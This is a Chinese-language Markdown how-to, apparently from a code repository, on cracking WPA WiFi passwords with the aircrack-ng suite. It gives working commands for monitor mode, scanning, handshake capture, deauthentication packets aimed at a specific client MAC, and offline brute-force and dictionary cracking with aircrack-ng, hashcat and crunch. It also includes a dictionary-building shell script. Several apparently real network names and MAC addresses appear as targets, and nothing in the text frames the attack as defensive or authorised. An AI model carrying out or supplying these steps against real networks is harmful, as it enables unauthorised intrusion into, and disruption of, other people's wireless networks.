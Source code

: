 # 破解 WIFI 密码

### 0. 查wlan0支持模式中有无监听（monitor）模式

~~`sudo iwconfig wlan0 mode`~~

经实践，此命令不能查(Debian)

### 1. 改成监听模式(改后wlan0就成了wlan0mon)

`sudo airmon-ng start wlan0`

### 2. 查看周围无线信息(也可以指定信道排除想排除的，例如 -c 1，只看信道为1的wifi连接情况;--bssid WIFI的MAC，只看某个WIFI的连接情况。)

`sudo airodump-ng wlan0mon`

记一两组想破解的BSSID（WIFI的MAC）和STATION（已连接的客户端MAC）

现以 `80:8F:1D:83:42:76` 和 `90:AD:F7:FA:8E:10` 为例。

最好也把WIFI名称（SSID）也记下来，例如：TP-LINK_4275，以备后用。

### 3. 模拟抓包(--ivs 包文件的格式为ivs，-c 指定为1信道，-w 指定包文件包为wifipass)

`sudo airodump-ng --ivs -c 1 -w wifipass --bssid 80:8F:1D:83:42:76 wlan0mon`

此窗口不要关，再开窗口发攻击包，观察这里的右上角，看有无出现 handshake ，出现则是包被抓到，未出现则继续增加攻击包。

### 4. 发攻击包（-0 发99个包，不够再加，赋值为0的话就是一直发）

`sudo aireplay-ng -0 99 -a 80:8F:1D:83:42:76 -c 90:AD:F7:FA:8E:10 wlan0mon`

### 5. 跑密码
两种方式：
1. 用air自带的方式，需要字典文件 dict.txt，比较慢。

    `sudo aircrack-ng wifipass-01.ivs -w dict.txt`

2. 用 hashcat  的方式， -m 2500 就是模式为 WPA

    先用 aircrack-ng 转换包的格式
    
    `sudo aircrack-ng wifipass-01.ivs -J wifipass.hccap`

    再用 hashcat 跑8位的纯数字密码（进度可以按s查看）
    
    `hashcat -m 2500 -a 3 --force wifipass.hccap "?d?d?d?d?d?d?d?d"`

    hashcat 字典模式
    
    `hashcat -m 2500 --force wifipass.hccap dict.txt`

    用 crunch 生成8位和9位的纯数字字典（第1个8为最少8位，第2个9为最多9位）
    
    `crunch 8 9 0123456789 -o dict.txt`

### 6. 退出监听模式
`sudo airmon-ng stop wlan0mon`

TP-LINK_4275
80:8F:1D:83:42:76
90:AD:F7:FA:8E:10

### 7. 示例 
监听 `wlan1mon` 信号为 `CMCC-pbHs` 信道为 `11` 无线路由（AP）的MAC为 `AC:5A:EE:D3:FC:C0` 包保存到 `CMCC-pbHs.ivs` 文件

`sudo airodump-ng wlan1mon --essid CMCC-pbHs -c 11 --bssid AC:5A:EE:D3:FC:C0 --ivs -w CMCC-pbHs`


### 8. 用脚本生成字典

```bash
$ cat p2.sh
for a in test Test TEST
do
        for b in 13800138000 18901234567 19880808
        do 
                for c in . @
                do
                        echo $a$b$c
                        echo $a$c$b
                        echo $b$c$a
                        echo $b$a$c
                        echo $c$a$b
                        echo $c$b$a
                done
        done
done
```
